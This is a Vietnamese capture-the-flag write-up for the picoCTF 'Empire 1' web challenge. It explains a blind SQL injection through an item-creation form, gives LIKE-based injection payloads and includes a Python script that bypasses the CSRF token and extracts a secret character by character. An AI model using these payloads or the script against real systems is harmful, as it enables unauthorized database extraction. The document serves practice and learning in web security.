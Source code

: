 #### Empire 1 ([Link](https://2019shell1.picoctf.com/problem/49726/))

-  Nói ra thì đây là 1 bài khá khó chịu. Mình muốn giải bài này theo 2 cách

- Cách 1 thì là cách mình làm lấy flag trong thời gian giải còn hiện hành. Nói ra thì cách này khá là hãm, không đi theo đúng hướng đề đưa ra. *View source* lên thấy cái *csrf_token* thì là thấy nguời ra đề không muốn ta dùng tool nào để giải. Bắt buộc phải *dump* tay ra flag luôn. Tuy nhiên mình không tìm ra được kỹ thuật *dump* tay để ra flag luôn. Đành phải vượt qua *csrf_token* và dùng kỹ thuật *blind sql* để giải bài này. Tuy hãm nhưng ra được flag là ok rồi

- Cách 2 là cách dễ hơn khi đi tham khảo vài tiền bối trong clb. Cái này thuộc dạng *insert*, chỉ cần *select* để *dump* data ra là được. Nói sơ qua thì ta cần *insert* 1 biến vào trong *database*, rồi nó trả về kết quả ở chỗ khác. Giờ ta cần nối được chuỗi giá trị ta nhập vô với chuỗi đã *insert* trước đó để ra flag

- Cách 2 này thì thời điểm này mình chưa viết wu, do chưa hiểu kỹ loại *insert* này. Tạm thời tại thời điểm này mình chỉ trình bày cách 1

- OK, cách nào thì cũng là cách, ra flag là được. Bắt đầu chiến thôi

- Thử 1 số payload trước để cảm nhận, cuối cùng thì đây là payload đầu tiên mình nhận được kết quả theo ý muốn

  - Payload: `' OR 'admin' OR '`

- Phân tích payload 1 tý: Theo cảm nhận ban đầu của mình thì nó chỉ xuất ra các giá trị *boolean*, như payload trên nó trả về 0, tức là sai. Payload gắn vô query thì nó sẽ tựa tựa như thế này

  - `... WHERE '' OR 'admin' OR ''`
  - *Rỗng OR chữ OR rỗng* thì trả về false
  - Có thể *rỗng OR none OR rỗng* sẽ trả về none

- Giờ thì *fuzzing*  *columns* với *table* của nó dựa vào hint của đề. Không có 2 cái này thì chịu. Có thể tìm ra nhưng nó hơi mệt

- Sau 1 hồi *fuzzing* 1 hồi thì mình cũng đoán ra được *column* là *secret* và *table* là *user*

- OK, payload là:

  - `' OR (SELECT secret FROM user WHERE secret LIKE 'a%' LIMIT 1) OR '`

- Phân tích ra thì `LIKE` dùng để so sánh ký tự mình đoán, ở đây là `a`, `%` đại diện cho các ký tự phía sau

  - Nếu điều kiện đúng, query chạy, túc là nó sẽ *select* ra được 1 ký tự của *secret* và nó trở về kiểu *Rỗng OR chữ OR rỗng* thì trả về false
  - Nếu điều kiện sai, query không chạy, lúc đó nó sẽ là giá trị none và nó trở về kiểu *rỗng OR none OR rỗng* sẽ trả về none

- Tuy nhiên để viết ra 1 cái tool thì khá mệt. Ta cần lấy cookie của acc đã lập áp vào. Viết code lấy *csrf_token*  để xác thực. Phải qua vài lần gửi *requests* nên nó khá là lâu

- Đây là tool của mình:

  ```python
  import sys, requests, re
  from string import *
  
  char = ascii_lowercase + digits
  
  url = 'https://2019shell1.picoctf.com/problem/49726/'
  
  cookie = {
  	'session' : '.eJwlj1tqAzEMAO_i73zo6ZVymcWyZBoCLewmX6V3z0IPMMPMb9vXUedXu7-Od93a_sh2b-URIWCG4QvCQzS6GywkkEplHiFiApQVOlVrgMwyF45kRDPi8tURkNKZcUGPJctIS9gYNs2uPi6lBQnX1AE9UVhFvbzd2jyPtb9-nvV99SBRWYw5tPNGKDp9aZ-Vq3xuNTmJYMtxce-zjv8Jbn8fFI89_g.XaRLzA.8ImPk0CSbDfuM-jOpgByTnqbK_8'
  }
  
  url_add = url + 'add_item'
  
  url_list = url + 'list_items'
  
  listpass = ''
  
  flag = 0
  
  while True:
  
  	for x in char:
  		print('trying with: ', listpass+x)
  
  		response = requests.get(url_add, cookies = cookie)
  
  		fin = re.findall('type="hidden" value="(.*)">', response.text)
  
  		payload = "' or (SELECT secret FROM user WHERE secret LIKE 'picoCTF{"+listpass+x+"%}' limit 1) or '"
  
  		data = {
  			'csrf_token' : fin[0],
  			'item' : payload,
  			'submit' : 'Create'
  		}
  
  		response = requests.post(url_add, cookies = cookie, data =data)
  
  		response = requests.get(url_list, cookies = cookie)
  
  		fin = re.findall('Very Urgent:</strong>(.*)', response.text)
  
  		if fin[len(fin)-1] == ' 0':
  			listpass += x
  			print('sucess with: ', listpass)
  			flag = 0
  			break
  		else:
  			flag += 1
          if flag == 36:
              print('Success with secret: ', listpass)
              sys.exit()
  ```

- Payload mình dùng có yếu điểm là khi gặp ký tự `_` nó sẽ tự động set đúng, nên mình loại nó ra khỏi danh sách các ký tự có thể, đến khi nó hết chạy tức là sau đó là ký tự `_`

- Mạn phép không giải thích cái tool, có thể vừa xem vừa *research* để xem cách mình đã dùng để viết nên tool này

- OK, sau 1 hồi xài cái cách vãi chưởng này thì cũng ra được flag. Mạn phép không show, các bạn nên tự làm dựa theo hướng dẫn của mình. Thực ra mình lười chạy lại để lấy flag :v
